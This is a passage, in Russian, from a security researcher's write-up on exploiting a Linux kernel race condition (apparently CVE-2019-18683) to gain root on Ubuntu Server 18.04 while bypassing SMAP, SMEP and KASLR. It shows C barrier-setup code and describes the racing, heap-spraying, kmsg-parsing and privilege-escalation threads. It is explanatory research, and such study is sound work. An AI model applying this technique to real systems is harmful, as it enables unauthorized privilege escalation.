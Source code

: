 Итак, соберем вместе все этапы эксплуатации уязвимости. Описываемый метод позволяет обойти средства защиты `SMAP`, `SMEP` и `KASLR` на Ubuntu Server 18.04.

## Эксплойт-оркестр

Для данного довольно сложного эксплойта я создал набор потоков (pthreads), которые управляются с помощью синхронизации на барьерах (`pthread_barriers`). Далее представлены барьеры, которые разбивают процесс эксплуатации на основные этапы:

```c
#define err_exit(msg) do { perror(msg); exit(EXIT_FAILURE); } while (0)

#define THREADS_N 50

	pthread_barrier_t barrier_prepare;
	pthread_barrier_t barrier_race;
	pthread_barrier_t barrier_parse;
	pthread_barrier_t barrier_kstack;
	pthread_barrier_t barrier_spray;
	pthread_barrier_t barrier_fatality;

	...

	ret = pthread_barrier_init(&barrier_prepare, NULL, THREADS_N - 3);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");

	ret = pthread_barrier_init(&barrier_race, NULL, 2);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");

	ret = pthread_barrier_init(&barrier_parse, NULL, 3);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");

	ret = pthread_barrier_init(&barrier_kstack, NULL, 3);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");

	ret = pthread_barrier_init(&barrier_spray, NULL, THREADS_N - 5);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");

	ret = pthread_barrier_init(&barrier_fatality, NULL, 2);
	if (ret != 0)
		err_exit("[-] pthread_barrier_init");
```

В данном эксплойте задействовано __50 потоков (pthreads)__, каждый из которых имеет __одну из пяти ролей__:
 - 2 `racer`-потока для достижения состояния гонки;
 - (THREADS_N - 6) = 44 `sprayer`-потока, которые зависают на `setxattr()` с настроенным `userfaultfd()`,
 - 2 потока для перехвата отказов страниц `userfaultfd()`;
 - 1 поток для анализа `/dev/kmsg` и адаптации полезной нагрузки для ядерной памяти;
 - 1 `fatality`-поток, который выполняет целевое повышение привилегий в системе.


[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety